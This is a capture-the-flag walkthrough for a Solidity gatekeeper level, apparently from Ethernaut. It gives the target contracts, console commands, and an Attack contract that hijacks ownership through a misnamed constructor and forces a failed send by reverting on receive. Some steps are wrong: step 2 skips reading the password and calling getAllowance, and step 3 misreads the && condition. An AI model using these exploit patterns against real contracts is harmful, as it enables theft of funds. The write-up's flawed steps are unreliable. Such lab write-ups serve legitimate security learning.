

# Challenge 28




```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allowEntrance;

  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allowEntrance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
  }

  receive () external payable {}
}
```

Challenge 28
---
> Cope with gates and become an entrant.

> Things that might help:

 Recall return values of low-level functions.

 Be attentive with semantic.

 Refresh how storage works in Ethereum.

Solution : Challenge 28

1. First we have `gateOne()` if we want to pass then `msg.sender` needs to be `owner` and second condition is `tx.origin != owner` means `tx.origin` must not be owner that means it must be contact,
let's keep in mind this for now we will get to this later.

2. `allowEntrance == true` for this we need to know password openup the terminal and get the password which is private 
get to the timestamp.

```shell
await contract.createTrick();
```

check the `allowEntrance` it will be true.

```shell
await contrtact.allowEntrance();
```

3. we need to pass the gate three you need to know `&&` operation
```solidity
 modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }
```

either contract balance is greater than `0.001 ether` or the owner needs to send `0.001 ether` for that 

```shell
await web3.eth.sendTransaction({from: player, to: "0x5507b2782471A4d0b53B9F5D9E068085415b38aF", value: web3.utils.toWei("0.002", "ether")})
```

now third gate passed.

let's get to the gateOne,open remix and create Contract.

```solidity
contract Attack {
   GatekeeperThree public gate;

    constructor(address payable _addr) public payable {
        gate = GatekeeperThree(_addr);
    }

    function becomeOwner() public {
        gate.construct0r();
    }    

    function enter() public {
        (bool result,) = address(gate).call(abi.encodeWithSignature("enter()"));
      require(result);
    }

    receive() external payable{
      revert();
    }
}
```

now deploy the contract with instance address, call the `becomeOwner()` and after that call the `enter()` your call will be successful. let's see the `entrant`.

```shell
await contract.entrant();
```

your (player) address will be updated. and submit the instance and your level will be cleared🎉.